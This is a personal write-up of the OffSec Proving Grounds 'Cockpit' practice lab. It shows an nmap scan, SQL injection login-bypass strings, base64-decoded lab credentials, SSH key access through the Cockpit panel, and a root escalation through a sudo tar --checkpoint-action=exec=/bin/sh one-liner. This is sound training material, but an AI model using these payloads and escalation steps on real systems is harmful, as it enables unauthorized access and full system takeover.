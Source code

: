 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Cockpit"
date:   2024-07-26 21:30:31 -0400
categories: oscp proving-grounds TJNull
---
```



192.168.199.10
me - 192.168.45.213

==================================================================================================
dirsearch -u http://192.168.199.10 -r -o dirsearch.txt



# Nmap 7.94SVN scan initiated Fri Jul 26 19:04:42 2024 as: nmap -sV -sC -p- -oA Cockpit 192.168.199.10
Nmap scan report for 192.168.199.10
Host is up (0.027s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
9090/tcp open  ssl/zeus-admin?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-07-26T23:03:39
|_Not valid after:  2124-07-02T23:03:39
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|     margin: 0 0 10px;
|_    @font-face {
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerpri
nt at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9090-TCP:V=7.94SVN%T=SSL%I=7%D=7/26%Time=66A42BDD%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,E45,"HTTP/1\.1\x20400\x20Bad\x20request\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=utf8\r\nTransfer-Encoding:\x20chunked\r\nX
SF:-DNS-Prefetch-Control:\x20off\r\nReferrer-Policy:\x20no-referrer\r\nX-C
SF:ontent-Type-Options:\x20nosniff\r\n\r\n29\r\n<!DOCTYPE\x20html>\n<html>
SF:\n<head>\n\x20\x20\x20\x20<title>\r\nb\r\nBad\x20request\r\nd08\r\n</ti
SF:tle>\n\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20content=\
SF:"text/html;\x20charset=utf-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewpo
SF:rt\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x2
SF:0\x20\x20<style>\n\tbody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:font-family:\x20\"RedHatDisplay\",\x20\"Open\x20Sans\",\x20Helvetica,\x
SF:20Arial,\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20font-size:\x2012px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:line-height:\x201\.66666667;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20color:\x20#333333;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20background-color:\x20#f5f5f5;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20img\x20{\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20border:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20vertical-align:\x20middle;\n\x20\x20\x20\x20\x20\x20\x20\x20}
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20font-weight:\x20300;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20}\n\x20\x20\x20\x20\x20\x20\x20\x20p\x20{\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20margin:\x200\x200\x2010px;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20@font-face\x20{\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20")%r(HTTPOptions,E45,"HTTP/1\.1\x20400\x20
SF:Bad\x20request\r\nContent-Type:\x20text/html;\x20charset=utf8\r\nTransf
SF:er-Encoding:\x20chunked\r\nX-DNS-Prefetch-Control:\x20off\r\nReferrer-P
SF:olicy:\x20no-referrer\r\nX-Content-Type-Options:\x20nosniff\r\n\r\n29\r
SF:\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20\x20\x20<title>\r\nb\r\nB
SF:ad\x20request\r\nd08\r\n</title>\n\x20\x20\x20\x20<meta\x20http-equiv=\
SF:"Content-Type\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20\x
SF:20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20in
SF:itial-scale=1\.0\">\n\x20\x20\x20\x20<style>\n\tbody\x20{\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20font-family:\x20\"RedHatDisplay\",\x20\"Ope
SF:n\x20Sans\",\x20Helvetica,\x20Arial,\x20sans-serif;\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20font-size:\x2012px;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20line-height:\x201\.66666667;\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#333333;\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#f5f5f5;\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20img\x20{\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20border:\x200;\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20vertical-align:\x20middle;\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20h1\x20{\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-weight:\x20300;\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20p\x20
SF:{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200\x200\x2
SF:010px;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20@font-face\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 26 19:08:07 2024 -- 1 IP address (1 host up) scanned in 204.92 seconds

==================================================================================================
cockpit running on 9090

https://cockpit-project.org/guide/latest/authentication


==================================================================================================
ding dong site on port 80 but has a hidden login page - http://192.168.199.10/login.php



by JDgodd | blaze.offsec (possible user name?)

check for sql injection by putting ' in user name and password fields and we have pay dirt


'OR " = '

'OR '' = '	Allows authentication without a valid username.





Username 	Password
james 	Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=
cameron 	dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy


                                                                                                                     
┌──(kali㉿kali)-[~/offsec/pg-practice/Cockpit]
└─$ echo -n "Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=" | base64 -d              
canttouchhhthiss@455152  


james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152


so ssh doesnt work for the above so we are going back to port 9090 to see if it works there

=======================================================================================================================
james works

```
└─$ cat ~/.ssh/id_ed25519.pub    
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOjpf/mFMlaKOmHjBplkGGlRhZok63RCtb2U9jphjKmG kali@kali
                                                                                                                     
┌──(kali㉿kali)-[~/offsec/pg-practice/Cockpit]
└─$ ssh -i ~/.ssh/id_ed25519 james@192.168.199.10

```

there is a section where we can add private keys so I add on qnd now I CAN SSH IN!




james@blaze:~$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *



SOOOOOO we just check gtfo bins and under tar it has an example so we do the following:

```
james@blaze:~$ sudo tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
local.txt
# id
uid=0(root) gid=0(root) groups=0(root)
```